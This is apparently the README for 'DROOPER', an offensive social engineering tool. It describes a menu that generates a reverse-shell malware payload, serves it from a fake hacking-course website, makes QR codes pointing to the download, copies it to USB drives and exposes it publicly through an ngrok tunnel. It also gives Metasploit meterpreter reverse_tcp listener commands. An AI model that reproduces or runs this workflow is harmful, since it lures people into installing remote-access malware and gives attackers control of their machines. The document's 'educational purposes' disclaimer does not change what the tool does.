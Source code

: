 DROOPER - Installation Guide
A Social Engineering Tool by AJVAD-N
Requirements

Before you begin, ensure you have the following installed on your system:

    Kali Linux (or any Linux system with Python 3)
    Python 3 (Check with python3 --version)
    Metasploit Framework (Check with msfconsole)
    Ngrok (If using tunneling)

Step 1: Clone the Repository

Open your terminal and run:

git clone https://github.com/your-repo/drooper.git
cd drooper

(Replace your-repo with the actual repository link if applicable.)
Step 2: Install Required Dependencies

Run the following command to install all dependencies:

pip install -r requirements.txt

If using Kali Linux, you might need to use:

pip install --break-system-packages -r requirements.txt

Step 3: Set Up Ngrok (Optional for External Access)

    Sign up at Ngrok
    Get your authtoken from Your Ngrok Dashboard
    Run this command to configure Ngrok:

    ngrok config add-authtoken YOUR_AUTHTOKEN

Step 4: Running DROOPER

Navigate to the project folder and run:

python3 drooper.py

You will see a menu like this:

1: Create Malware
2: Start Listener
3: Start Web Hosting Service
4: Generate Malware QR Code
5: Copy Malware to USB
6: Start Ngrok Tunnel
7: Exit

Step 5: Using DROOPER
1️⃣ Create Malware

Select option 1, and the tool will generate a reverse shell payload inside the DROOPER_OUTPUT folder.
2️⃣ Start the Metasploit Listener

Choose option 2 to start a Metasploit listener for the reverse shell.
3️⃣ Host a Fake Hacking Course Website

Select option 3 to start the web server, making the malware available for download.
4️⃣ Generate a QR Code for the Malware

Option 4 will generate a QR code linking to the malware download page.
5️⃣ Copy Malware to USB Drive

Select option 5 to copy the malware to an attached USB device.
6️⃣ Start Ngrok for External Access

Option 6 will start an Ngrok tunnel, making the hosted malware accessible from anywhere.
Step 6: Manual Testing

    To test the web hosting, visit:

http://localhost:8080/

To download the malware, visit:

    http://localhost:8080/download/dropper.exe

    If using Ngrok, visit the URL shown after running option 6.

Troubleshooting
1. Flask Server Not Running

    Ensure python3 is installed and try:

python3 drooper.py

Open another terminal and check for running processes:

    ps aux | grep flask

2. Ngrok Connection Issues

    Run:

ngrok http 8080

Ensure you’ve added your authtoken using:

    ngrok config add-authtoken YOUR_AUTHTOKEN

3. Metasploit Not Working

    Start Metasploit manually:

msfconsole

Load the listener manually:

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST your_ip
    set LPORT 4444
    exploit

Uninstallation

To remove DROOPER, run:

rm -rf drooper

To remove installed dependencies:

pip uninstall -r requirements.txt -y

Final Notes

✅ Use responsibly – This tool is for educational purposes.
✅ Test everything before deploying.
✅ Stay ethical – Unauthorized use is illegal.

Need help? Contact AJVAD-N for support. 🚀
